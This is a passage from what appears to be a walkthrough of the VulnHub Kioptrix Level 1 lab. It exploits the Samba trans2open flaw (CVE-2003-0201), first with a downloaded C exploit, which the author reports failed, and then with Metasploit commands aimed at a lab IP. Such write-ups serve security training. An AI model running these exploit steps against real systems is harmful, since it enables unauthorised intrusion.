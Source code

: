 [GitHub - KernelPan1k/trans2open-CVE-2003-0201: Samba exploit CVE2003-0201](https://github.com/KernelPan1k/trans2open-CVE-2003-0201)

For the exploit to work the target needs to allow anonymous access to the IPC$ share. This was confirmed during the enumeration stage. Since this is also a C code it needs to be compiled after download. I could not get the C code to work. No matter how many times I run the code it would always fail.

```bash
./trans2open 0 10.0.2.22 10.0.2.15
```

![Samba Exploit 1|440](images/vulnhub-kioptrix-lvl1/samba-exploit-1.png)

Metasploit also has a `trans2open` exploit. This exploit is written in Ruby.

```bash
msfconsole

# Metasploit Commands
search trans2open
use 1
show options
set RHOSTS 10.0.2.22
exploit
```

![Samba Exploit 2](images/vulnhub-kioptrix-lvl1/samba-exploit-2.png)
